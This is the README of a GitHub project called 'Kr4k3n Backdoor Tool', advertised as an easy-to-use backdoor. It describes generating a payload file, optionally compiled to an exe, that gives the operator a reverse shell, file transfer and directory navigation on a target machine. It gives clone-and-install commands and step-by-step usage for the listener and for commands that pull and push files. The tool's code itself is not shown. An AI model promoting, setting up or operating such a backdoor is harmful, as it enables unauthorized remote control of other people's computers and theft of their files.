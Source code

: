 # Kr4k3n Backdoor Tool
 Powerful and easy to use Backdoor.

## How it works
```
Using this tool you can easily and fast generate target file that will give you many features. Firstly, you can have access to target shell. Secondly, you can make file transfers between your and target machines. Thirdly, you can make directory movements.
```
## Features
- Reverse Shell
- File Transfer
- Directory Movement

## Installation:

One line installation:
```
$ git clone git@github.com:YanOScompany/kr4k3n && cd kr4k3n && chmod 755 install.sh && ./install.sh
```

Simple and quick installation:
```
$ git clone git@github.com:YanOScompany/kr4k3n
$ cd kr4k3n
$ chmod 755 install.sh && ./install.sh
```

## Usage:

[![Video Tutorial](https://www.youtube.com/watch?v=b4WSImA3avQ)

Example usage:
```

1. Generate file | python2 Generate.py 127.0.0.1 8888 or to compile to exe add --compile (make sure that you have install pyinstaller)
2. Start kr4k3n and wait until your target connection. Example | python2 kr4k3n.py 127.0.0.1 8888
3. Use commands. Example | ls, ifconfig or kraken-get 11.png, kraken-push 11.png (for see all commands type kraken-help)
```
##My Instagram: @k4sh1r1nkut0 

